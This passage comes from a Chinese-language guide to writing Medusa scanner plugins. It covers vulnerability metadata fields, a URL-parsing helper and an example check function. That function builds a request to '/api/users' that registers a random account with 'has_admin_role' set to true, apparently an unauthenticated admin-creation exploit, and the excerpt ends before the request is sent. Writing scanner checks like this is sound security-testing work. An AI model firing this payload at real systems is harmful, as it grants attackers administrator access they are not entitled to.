 | rank         | 漏洞等级     | 分为：严重、高危、中危、低危四个种类                         |
| suggest      | 修复建议     | 给出缓解措施或者解决办法                                   |
| disclosure | 披露时间 | 漏洞披露时间，如果不知道就写编写插件的时间 |
| version      | 漏洞所影响的版本         | 只要写漏洞所影响的版本范围，适用于那些版本     |
| disclosure | 披露时间 | 漏洞披露时间，如果不知道就写编写插件的时间 |


### UrlProcessing函数

对`url`进行处理

```python
def UrlProcessing(url):
    if url.startswith("http"):#判断是否有http头，如果没有就在下面加入
        res = urllib.parse.urlparse(url)
    else:
        res = urllib.parse.urlparse('http://%s' % url)
    return res.scheme, res.hostname, res.port
```

函数对各个部分进行处理，最终我们只需要取得` scheme` ,` port` , ` hostname` 的值返回给调用函数就行

该函数在`2.7`插件编写规范版本中已写入`ClassCongregation`类中，调用只需要如下操作即可

```python
使用方法一：单独导入
from ClassCongregation import UrlProcessing
scheme, url, port = UrlProcessing().result(Url)
使用方法二：直接导入
import ClassCongregation
scheme, url, port = ClassCongregation.UrlProcessing().result(Url)
```



### medusa函数

```python
def medusa(Url:str,Headers:dict,proxies:str=None,**kwargs)->None:
    proxies=Proxies().result(proxies)
    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    try:
        payload = '/api/users'
        payload_url = scheme + "://" + url + ":" + str(port) + payload

        #在原始传入的标头中添加需要的其他标头
        Headers["Accept"]="application/json"
        Headers["Content-Type"]="application/json"
        rm = "MedusaTextPoc"+randoms().result(5)  # 获取随机数
        data= {
            "username": rm,
            "email": rm+"@qq.com",
            "realname": rm,
            "password": rm,
            "comment": rm,
            "has_admin_role": True
        }

        data = json.dumps(data)
```